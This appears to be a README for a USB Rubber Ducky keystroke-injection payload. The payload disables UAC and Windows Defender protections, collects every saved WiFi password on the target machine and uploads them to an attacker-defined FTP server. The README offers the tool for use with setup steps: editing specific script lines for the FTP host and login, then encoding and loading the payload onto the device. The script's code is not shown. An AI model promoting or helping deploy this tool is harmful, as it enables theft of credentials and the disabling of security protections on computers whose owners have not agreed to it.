 -----------------------------------------------------
# Rubber Ducky WiFI Grab and Upload via FTP (UAC & Windows Defender deactivation included)


REM Title:         UAC, Windows Defender and WiFi Grab via FTP

REM Description    Disable UAC and download py script to disable Realtime and tamper protection, after this the ducky will grab alll wifi passwords the device has and upload them to an ftp server defined in the payload.

REM Author:        FX17

REM Version:       3.0

REM Target:        Windows 7/8/10/11

REM Attackmodes:   HID

—————————————————————————————————————————————————

Be sure to edit the .txt file lines 96, 99 and 102.

For example the script should look like:

96: `STRING 192.168.0.69 21`

99: `STRING FX17`

102: `STRING SecurePassword123!`


After these changes encode the script and upload to your ducky!

If you have any issues running this script, please contact me via discord: @Keiran1712

-----------------------------------------------------
